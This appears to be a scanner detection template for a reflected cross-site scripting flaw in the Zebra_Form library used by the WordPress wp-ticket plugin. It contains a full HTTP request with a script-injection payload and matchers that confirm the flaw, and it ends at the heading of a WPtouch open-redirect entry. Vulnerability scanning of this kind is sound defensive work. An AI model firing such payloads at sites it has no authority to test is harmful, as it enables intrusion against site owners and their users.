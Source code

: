 - Zebra_Form PHP library 2.9.8 and prior (which is used by some WordPress plugins) is affected by reflected cross-site scripting vulnerabilities via process.php.

- severity - medium
- tags - wordpress,xss,wp,wpscan

## Requests

### Step - 1

```
POST /wp-content/plugins/wp-ticket/assets/ext/zebraform/process.php?form=%3C/script%3E%3Cimg%20src%20onerror=alert(document.domain)%3E&control=upload HTTP/1.1
Host: {{Hostname}}
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Content-Type: multipart/form-data; boundary=---------------------------77916619616724262872902741074
Origin: null

-----------------------------77916619616724262872902741074
Content-Disposition: form-data; name="upload"; filename="{{randstr}}.txt"
Content-Type: text/plain
Test
-----------------------------77916619616724262872902741074--

```

### Matchers

**Type - word**

- part - body
- words
  1. \</script>\<img src onerror=alert(document.domain)>

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress WPtouch 3.x - Open Redirect

## Description
